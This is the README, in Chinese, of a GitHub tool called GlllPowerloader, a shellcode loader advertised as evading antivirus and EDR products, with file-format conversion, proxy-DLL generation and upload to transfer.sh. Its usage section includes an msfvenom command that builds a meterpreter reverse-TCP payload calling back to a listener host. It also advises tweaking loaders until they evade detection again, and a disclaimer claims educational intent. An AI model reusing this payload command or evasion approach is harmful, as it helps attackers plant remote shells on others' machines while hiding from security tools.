 # GlllPowerloader


- [1.前言](#1前言)

- [2.功能](#2功能)

- [3.使用](#3使用)
  - [0x01.环境安装](#0x01环境安装)
  
  - [0x02.shellcode loader的使用](#0x02shellcode-loader的使用)
  
  - [0x03.Automation\_loader](#0x03automation_loader)
  
  - [0x04.文件格式转换](#0x04文件格式转换)
  
  - [0x05.自动化生成代理DLL](#0x05自动化生成代理dll)
  
  - [0x06.文件捆绑和上传](#0x06文件捆绑和上传)
  
    
  
- [4.更新](#4更新)

- [5.免责声明](#5免责声明)

- [6.结语](#6结语)

# 1.前言

* 视频讲解：https://www.bilibili.com/video/BV1RK411z7XA/  欢迎点赞关注

- 刚开始可以免杀主流杀软的，不过后面肯定会被乱杀，主要目的是学习恶意代码和自动化


# 2.功能



|       功能       |                描述                |
| :--------------: | :--------------------------------: |
|   1.免杀加载器   | 各种方式加载shellcode，绕过AV/EDR  |
|  2.文件格式转换  |    Windows中文件格式之间的转换     |
| 3.自动化文件托管 | 将文件托管到：https://transfer.sh/ |



# 3.使用

## 0x01.环境安装

您必须下载并安装以下环境：

1.Mingw64(C/C++)的编程环境：https://github.com/niXman/mingw-builds-binaries/releases/download/12.2.0-rt_v10-rev2/x86_64-12.2.0-release-posix-seh-msvcrt-rt_v10-rev2.7z

解压完以后，将bin目录添加至环境变 量即可

使用Git下载项目

```
git clone https://github.com/INotGreen/GlllPowerloader.git
cd GlllPowerLoader-master
pip install -r requirements.txt
start.bat
```



## 0x02.shellcode loader的使用

大部分已经不能免杀了，不过稍微改一下基本上都能过，建议使用无阶段的shellcode（Stageless）

Metasploit:

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.1.0 LPORT=4488 -f raw -o payload.bin
```

## 0x03.Automation_loader



# 4.更新

[+] 2022年12.21，Powerloader发布

[+]2023 年11.15-19， 删除冗余的功能，优化代码（之前的版本涉及语言安装环境太多了，使用太麻烦，为了简便就留C/C++的加载器）

免杀加载器正在更新中。。。


# 5.免责声明

该工具仅用于网络安全教育和研究，禁止用于非法途径，我对您由使用或传播等由此软件引起的任何行为和/或损害不承担任何责任。您对使用此软件的任何行为承担全部责任，并承认此软件仅用于教育和研究目的。下载本软件或软件的源代码，您自动同意上述内容。

# 6.致谢

刚开始学习了他的编码方式，这非常有意义：https://github.com/icyguider/Shhhloader
